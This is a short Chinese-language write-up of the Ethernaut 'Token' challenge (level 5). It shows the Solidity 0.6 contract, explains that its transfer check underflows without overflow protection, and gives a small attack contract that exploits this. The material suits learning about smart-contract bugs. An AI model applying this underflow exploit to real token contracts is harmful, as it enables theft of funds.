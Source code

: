 ```yaml
---
title: ethernaut NO.5
tags： Text
---
```




首先来看合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}

```

**合约中本来有20个代币，要求获得1个或者更多**

<span style="color: red;">关键点</span>: 这个合约的solidity版本是0.6的，该版本没有设置整型溢出的检测，所以我们可以利用整型溢出来完成这道题；

以下是攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to ,uint256 value) external returns (bool);
}
contract Hcak{
    constructor (address _target){
        IToken(_target).transfer(msg.sender,1);
    }
}
```

需要做的是将该合约部署在需要攻击的合约地址中，然后调用IToken就可以查询合约的代币数量为21；